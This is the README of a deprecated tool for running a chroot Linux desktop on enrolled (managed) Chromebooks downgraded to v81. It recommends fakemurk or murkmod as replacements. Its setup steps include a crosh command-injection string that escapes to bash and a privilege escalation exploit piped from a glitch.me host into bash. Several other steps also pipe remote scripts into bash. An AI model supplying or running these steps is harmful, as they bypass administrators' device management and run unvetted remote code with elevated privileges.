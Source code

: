 # cedr is deprecated!

Instead, use a proper solution like fakemurk or murkmod.

# cedr
cedr - the ChromeOS Enrolled Desktop Runtime

## Requirements
 - A Chromebook, downgraded to v81 with crosh access
 - A USB drive or SD card, 4gb or more (32gb is reccomended), formatted with a **single partition**, ext4 filesystem

## Installation onto a USB drive

1. Open a crosh tab (Ctrl+Alt+T) and get into bash:
```crosh
set_cellular_ppp \';bash;exit;\'
```
2. Run the privilege escalation exploit:
```bash
bash <(curl http://hostz.glitch.me/80.sh)
```
3. Now, plug in your USB drive/SD card and find the path to its block device. Usually, it'll be /dev/sda if you're using a USB drive, or something different with an SD card. Either way, use the following command to find it (it's usually at the bottom)
```bash
fdisk -l
```
4. Once you know the drive you're installing cedr to, you now need to choose a target to install. You can choose from the options [here](https://github.com/rainestorme/crouton/tree/master/targets). Each target represents a desktop environment. For this tutorial, I'll use `xfce` as the target, but you can change it to whatever you want:
```bash
curl https://raw.githubusercontent.com/rainestorme/cedr/main/cedr-bootstrap.sh | bash -s /dev/sdX xfce
```
5. This will take around 50 minutes and once it's done, it will prompt you for a username and password. Supply these and the chroot will automatically be unmounted. Now, to activate the desktop, run the following:
```bash
cd /home/chronos/usbdrv
./cedr-activate.sh
```
6. Now that you're done working within your chroot desktop environment, you can logout of the session using the built-in controls. If you want to unplug the USB drive, wait for the process to finish unmounting, then run the following:
```bash
bash <(curl http://raw.githubusercontent.com/rainestorme/cedr/main/cedr-umount.sh)
```

## Usage

After creating a USB drive with cedr, you can remount it and launch the desktop environment with the super-duper-ultra-easy command found below:

```bash
curl https://raw.githubusercontent.com/rainestorme/cedr/main/cedr-mount.sh | bash -s /dev/sdX
```

Once again, replace /dev/sdX with your USB drive/SD card.

Once you're done, just do the same thing as before to unmount your drive:

```bash
bash <(curl http://raw.githubusercontent.com/rainestorme/cedr/main/cedr-umount.sh)
```

## Other utilities

### `cedr-version`

Once you're inside of a chroot session, you can open a terminal and run `/bin/cedr-version` to see the version of cedr that was used to install the chroot.
